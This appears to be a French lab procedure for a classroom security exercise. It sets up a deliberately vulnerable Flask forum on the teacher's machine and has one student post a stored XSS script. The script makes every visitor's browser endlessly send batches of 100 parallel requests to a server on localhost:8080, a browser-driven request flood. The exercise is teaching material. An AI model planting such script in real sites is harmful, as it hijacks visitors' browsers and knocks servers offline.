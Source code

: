 # Procédure

## Partir le serveur cible sur le poste du prof

## Partir le forum sur la machine locale (poste du prof)

- se placer dans le projet forumPassoire **cd /path/to/forumPassoire**
- lancer le serveur flask avec la commande **python3 app.py**
- valider avec un navigateur en allant sur l'adresse **http://127.0.0.1:5000**
- afficher l'adresse IP du prof pour que chaque étudiant puisse se connecter au forum

## Créer un post qui envoie des requêtes

- choisir un étudiant X, le pirate
- les autres sont les utilisateurs du forum
- X navigue vers http://127.0.0.1:5000/create_post
- X entre le code suivant dans le post:
```html
Mon message qui va s'afficher
<script>
// Send 100 requests in parallel 
const sendRequests = async (numRequests) => {
    const url = 'http://localhost:8080';
    const requests = [];

    for (let i = 0; i < numRequests; i++) {
        requests.push(fetch(url));
    }

    try {
        const responses = await Promise.all(requests);
        const results = await Promise.all(responses.map(response => response.text()));
        console.log(results);
    } catch (error) {
        console.error('Error with requests:', error);
    }
};
// Example: Send 100 requests in parallel
while (true) {
    console.log('Sending requests...');
    sendRequests(100);
}
</script>
```
- X envoie son post
- Tout le monde recharge la page du forum